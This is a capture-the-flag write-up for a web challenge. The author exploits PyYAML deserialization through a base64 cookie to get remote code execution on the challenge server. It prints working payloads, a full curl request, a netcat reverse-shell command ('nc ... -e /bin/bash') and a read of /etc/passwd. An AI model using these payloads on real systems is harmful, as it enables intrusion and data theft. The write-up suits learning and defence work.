 
# Challenge Name: password hint


![date](https://img.shields.io/badge/date-02.03.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![crypto category](https://img.shields.io/badge/category-Web-blueviolet.svg)   
![level](https://img.shields.io/badge/level-Medium-blue.svg)
![score](https://img.shields.io/badge/score-100-blue.svg)




## Detailed solution

Opening the challenge link http://52.59.239.147/api/v1/ we found a json output  

```json
{
  "api_data": "The api is still under construction, updates coming soon!"
}
```

I start checking the response headers, we have a base64 encoded data in cookie  

```
Cookie: data=YXBpX2RhdGE6IFRoZSBhcGkgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==  
```
Let's decode it : api_data: The api is still under construction, updates coming soon!  

It give us the same as the response output.

The challenge description refer to a use of Python YAML, there's a known vulnerability in PyYamal, a deserialization RCE attack  

https://dl.packetstormsecurity.net/papers/general/yaml-deserialization.pdf  

Now we need to use a payload and put it insid cookie, i started by a payload to run the command "ls"   

```
test: !!python/object/apply:subprocess.check_output ["ls"]
encode with base64 : dGVzdDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsibHMiXQo=
```
I'll use curl to send the request  

```
curl 'http://52.59.239.147/api/v1/' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: en-US,en;q=0.9,ar;q=0.8,fr;q=0.7' \
  -H 'Cookie: data=InRlc3QiOiAhIXB5dGhvbi9vYmplY3QvYXBwbHk6c3VicHJvY2Vzcy5jaGVja19vdXRwdXQgWyJscyJdCg==' \
  --compressed \
  --insecure
```  
We can see all files in the app directory. (the output now is different from the day i solved the challenge)

The challenge description talk about the passwd file so the solution for the challenge is to read the /etc/passwd.  

I tried to use the command cat with the payload but i was not able to print the file content.  

I'll use the os.system to create a reverse shell using nc 

```
test: !!python/object/apply:os.system ["nc 10.10.10.10 4444 -e /bin/bash"]
``` 
I got a reverse shell   

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.1.100] from (UNKNOWN) [52.59.239.147] 37595
id
uid=1000(app) gid=1000(app) groups=1000(app) 
```   
Let's read the passwd file 
  
```bash
cat /etc/passwd  

administrator:FLAG{aa330d7755f14d398cbfef715bbf36f59a8cfae5}:1000:1000:administrator,,,:/home/administrator:/bin/bash
```  

## Flag

```
FLAG{aa330d7755f14d398cbfef715bbf36f59a8cfae5}
```
